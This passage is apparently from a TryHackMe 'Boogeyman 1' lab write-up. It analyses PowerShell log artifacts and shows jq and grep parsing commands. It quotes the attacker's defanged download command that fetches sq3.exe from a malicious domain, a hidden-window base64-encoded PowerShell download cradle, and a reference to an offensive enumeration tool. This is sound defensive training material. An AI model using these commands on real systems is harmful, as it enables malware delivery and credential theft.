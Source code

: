 **Notes**:  
- The purpose of the downloaded script requires further investigation to understand its full impact.

---

## Endpoint Investigation

**PowerShell Artifacts**:  
- Found in `powershell.json` within the Artefacts folder:  
  - Suspicious GitHub URL: `hxxps[://]github[.]com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Seatbelt[.]ps1`  
    - **Purpose**: References `Invoke-Seatbelt`, a PowerShell tool for system enumeration, possibly used by the attacker.

- Suspicious command:  
  - `iwr hxxp[://]files[.]bpackaging[.]xyz/sq3[.]exe -outfile sq3[.]exe;pwd`  
    - **Purpose**: Uses `Invoke-WebRequest` (`iwr`) to download `sq3.exe` from the malicious domain and saves it as `sq3.exe`. The `pwd` command outputs the current working directory.

**Extracted Domains (Defanged)**:  
- `cdn[.]bpackaging[.]xyz`  
- `files[.]bpackaging[.]xyz`

**Additional Findings**:  
- File path: `C:\Users\j.westcott\Documents\protected_data.kdbx;pwd`  
  - **Purpose**: Indicates a KeePass database file (`protected_data.kdbx`) and the `pwd` command, likely used to verify the current directory.

- Encoded PowerShell command:  
  - `C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -windowstyle hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABiAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAd`  
  - **Purpose**: An encoded PowerShell command, likely executing a downloaded script in a hidden window, similar to the .lnk file’s command.

**Commands for Parsing `powershell.json`**:  
- Note: The TryHackMe Boogeyman 1 room provided the `{}` syntax for `jq` filtering. I selected the specific field names (`path`, `ContextInfo`, `ScriptBlockText`, and `ContextInfo, ScriptBlockText`) to extract relevant data, enabling targeted analysis of file paths, context, and script content.  
- `cat powershell.json | jq '{path}'`  
  - **Purpose**: Extracts the `path` field from `powershell.json` using `jq` to identify file paths in the logs.

- `cat powershell.json | jq '{ContextInfo}'`  
  - **Purpose**: Extracts the `ContextInfo` field, providing contextual details about PowerShell execution (e.g., user or process information).

- `cat powershell.json | jq '{ScriptBlockText}'`  
  - **Purpose**: Extracts the `ScriptBlockText` field, revealing the executed PowerShell script content.

- `cat powershell.json | grep AppData`  
  - **Purpose**: Searches for references to the `AppData` directory, identifying paths like `plum.sqlite`.
